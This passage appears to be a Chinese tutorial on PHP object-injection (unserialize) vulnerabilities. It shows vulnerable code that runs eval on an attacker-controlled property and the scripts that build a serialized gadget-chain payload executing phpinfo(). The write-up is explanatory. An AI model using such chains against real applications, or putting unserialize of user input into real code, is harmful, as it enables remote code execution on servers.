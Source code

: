 ```php
        echo "please attack me";
    }
}
class evil {
    var $test2;
    public function action(){
        eval($this->test2);
    }
}
unserialize($_GET['test']);
```

解析 ：反序列化test内容，因为test内容可控，所以存在发序列化的漏洞。

一般反序列化的分析入口为`__destruct()`因此调用链可以分析如下：

__destruct()---->  $this->test->action(),如果,  this->test 出示化为normal，则调用normal1方法，同理也可以调用evil.action()方法

调用链从后往前写：先用evil.action()--->test.action --> _destruct()

因此修改调用链如下：

```php
<?php
class index {
    public $test;
}

class evil {
    var $test2 ="phpinfo();";

}
//调用链


$ev = new evil();
$a= new index();
$a->test = $ev;
echo serialize($a);
```

执行后的结果：

![image-20220925224905592](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220925224905592.png)

说明:此处修了了index 中的$test 属性，如果该属性为private 则修改对应的执行代码如下：

当然也$test 为public也可以这么使用。

```php
<?php
class index {
    private $test;
    public function __construct()
    {
        $this->test = new evil();
    }
}

class evil {
    var $test2 = 'phpinfo();';
}
$a= new index();
echo serialize($a);
```
